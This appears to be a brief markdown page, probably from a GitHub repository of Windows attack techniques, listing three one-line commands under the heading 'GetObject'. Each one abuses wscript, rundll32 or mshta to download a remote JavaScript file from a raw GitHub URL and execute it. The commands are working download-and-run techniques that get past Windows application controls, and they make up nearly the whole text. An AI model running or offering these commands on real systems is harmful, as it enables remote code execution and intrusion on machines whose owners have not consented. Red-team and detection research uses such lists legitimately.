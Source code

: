 #### GetObject

wscript/cscript <br><br>
`echo GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js") > test.js && wscript.exe test.js`<br>
<br>
rundll32<br><br>
`rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js")`
<br>
<br>
mshta 
<br><br>
`mshta.exe javascript:GetObject("script:https://raw.githubusercontent.com/sailay1996/misc-bin/master/calc.js");close();`
